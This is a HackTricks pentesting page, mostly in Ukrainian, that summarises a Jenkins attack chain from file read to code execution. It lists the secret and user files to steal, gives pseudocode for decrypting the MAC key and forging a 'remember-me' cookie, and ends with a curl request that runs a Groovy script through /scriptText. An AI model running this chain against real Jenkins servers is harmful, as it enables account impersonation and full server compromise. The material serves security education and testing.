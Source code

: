 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

У цьому блозі можна знайти чудовий спосіб перетворити вразливість Local File Inclusion у Jenkins на RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Це підсумок, створений штучним інтелектом, частини посту, де зловживання створенням довільного cookie використовується для отримання RCE, зловживаючи читанням локальних файлів, поки я не матиму часу створити підсумок самостійно:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" має бути увімкнено (налаштування за замовчуванням).
* **Access Levels:** Зловмисник потребує загальних/читальних дозволів.
* **Secret Access:** Можливість читати як бінарний, так і текстовий вміст з ключових файлів.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Отримати конфігурацію користувача та секрети з `$JENKINS_HOME/users/*.xml` для кожного користувача, щоб зібрати:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Витягти криптографічні ключі, що використовуються для підписування cookie:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Додає одну годину до поточного часу
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Перетворити головний ключ у формат ключа AES128
decrypted = AES.decrypt(macFile, key)  // Розшифрувати .mac файл
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Обчислити HMAC, використовуючи токен і MAC ключ
tokenSignature = bytesToHexString(mac)  // Перетворити MAC у шістнадцятковий рядок
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 кодувати дані cookie
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Зробити запит до `/crumbIssuer/api/json`, щоб отримати `Jenkins-Crumb`.
* Захопити `JSESSIONID` з відповіді, який буде використано разом з cookie "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Скрипт Groovy може бути використаний для виконання команд на рівні системи або інших операцій у середовищі Jenkins.

Приклад команди curl демонструє, як зробити запит до Jenkins з необхідними заголовками та cookie для безпечного виконання довільного коду.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

